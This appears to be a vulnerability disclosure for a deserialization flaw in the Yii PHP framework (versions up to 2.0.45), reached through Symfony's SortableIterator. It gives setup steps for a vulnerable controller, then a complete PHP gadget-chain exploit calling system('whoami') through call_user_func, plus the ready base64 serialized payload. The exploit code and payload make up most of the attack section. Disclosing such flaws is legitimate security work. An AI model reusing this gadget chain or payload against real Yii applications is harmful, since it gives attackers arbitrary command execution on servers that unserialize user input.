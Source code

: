 ## Vulnerability description

Yii version <=2.0.45 has a deserialization vulnerability. If the framework is referenced and there is a deserialization entry point, an attacker can achieve arbitrary command execution through deserialization. 

The exploitation point is in the getIterator() method of symfony\finder\Iterator\SortableIterator.php.

## Affects Version

Yii <= 2.0.45

## vulnerability proof

yii2 v2.0.45 php v8.2.9

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/file-20250317210909960.png)

When setting up the environment, remember to assign a value to cookieValidationKey in config/web.php, and then add a deserialization entry in the actionIndex() method of controllers\SiteController.php.

```php
public function actionIndex()  
{  
    $name = Yii::$app->request->get('input');  
    unserialize(base64_decode($name));  
    return $this->render('index');  
}
```

EXP

```php
<?php  
namespace Symfony\Component\Finder\Iterator {  
    class SortableIterator  
    {  
        public $iterator;  
        public $sort;  
  
        function __construct($iterator, $sort)  
        {  
            $this->iterator = $iterator;  
            $this->sort = $sort;  
        }  
    }  
}  
namespace Codeception{  
  
    class Example  
    {  
        public $data;  
  
        public function __construct($data)  
        {  
            $this->data = $data;  
        }  
    }  
}  
namespace SebastianBergmann\RecursionContext{  
    use Symfony\Component\Finder\Iterator\SortableIterator;  
    use Codeception\Example;  
    final class Context  
    {  
        public $arrays;  
    }  
    $a=new Context();  
    $b = new Example(['system','whoami']);  
    $a->arrays=new SortableIterator($b, "call_user_func");  
    echo base64_encode(serialize($a));  
}
```

After serialization

```
Tzo0MjoiU2ViYXN0aWFuQmVyZ21hbm5cUmVjdXJzaW9uQ29udGV4dFxDb250ZXh0IjoxOntzOjY6ImFycmF5cyI7Tzo1MDoiU3ltZm9ueVxDb21wb25lbnRcRmluZGVyXEl0ZXJhdG9yXFNvcnRhYmxlSXRlcmF0b3IiOjI6e3M6ODoiaXRlcmF0b3IiO086MTk6IkNvZGVjZXB0aW9uXEV4YW1wbGUiOjE6e3M6NDoiZGF0YSI7YToyOntpOjA7czo2OiJzeXN0ZW0iO2k6MTtzOjY6Indob2FtaSI7fX1zOjQ6InNvcnQiO3M6MTQ6ImNhbGxfdXNlcl9mdW5jIjt9fQ==
```

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/file-20250317211819711.png)
